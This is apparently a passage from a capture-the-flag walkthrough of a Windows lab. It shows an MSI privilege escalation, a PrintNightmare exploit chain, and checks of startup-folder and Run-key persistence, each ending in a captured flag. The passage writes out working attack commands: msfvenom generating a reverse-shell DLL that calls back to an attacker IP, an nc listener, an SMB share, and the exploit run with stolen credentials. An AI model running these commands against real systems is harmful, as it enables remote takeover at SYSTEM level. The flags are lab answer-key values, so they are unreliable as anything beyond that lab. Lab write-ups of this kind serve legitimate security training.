 ```bash
*Evil-WinRM* PS C:\> msiexec /quiet /qn /i C:\Temp\evil.msi

# In SYSTEM shell:
C:\Windows\system32> type C:\Users\Administrator\Desktop\msi_privesc_flag.txt
# Output: FLAG{WIGGLYTUFF69905375}
```

### FLAG 014: PrintNightmare Exploitation (45 points)
**Location**: Exploiting Print Spooler vulnerability
```bash
# On Kali, setup exploit:
git clone https://github.com/cube0x0/CVE-2021-34527.git
cd CVE-2021-34527

# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.7 LPORT=6666 -f dll > nightmare.dll

# Start SMB server and listener
impacket-smbserver share . -smb2support
nc -lvnp 6666

# Run exploit
python3 CVE-2021-34527.py 'jsmith:Welcome1@192.168.1.124' '\\192.168.1.7\share\nightmare.dll'

# In SYSTEM shell:
C:\Windows\system32> type C:\Windows\System32\spool\drivers\color\workstation_spooler_flag.txt
# Output: FLAG{GOLBAT58469705}
```

---

## Phase 6: Persistence Mechanisms

### FLAG 015: Startup Folder Analysis (20 points)
**Location**: User startup folder
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> Get-Content "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\update.bat"
# Output contains: REM Flag: FLAG{VILEPLUME23467851}
```

### FLAG 016: Registry Run Key (25 points)
**Location**: HKCU Run registry
```bash
# In Evil-WinRM session:
*Evil-WinRM* PS C:\> Get-ItemProperty HKCU:\Software\Microsoft\Windows\CurrentVersion\Run
# Shows: Updater with FLAG{PARASECT86843125}

# Execute the command
*Evil-WinRM* PS C:\> cmd /c echo FLAG{PARASECT86843125}
# Output: FLAG{PARASECT86843125}
```
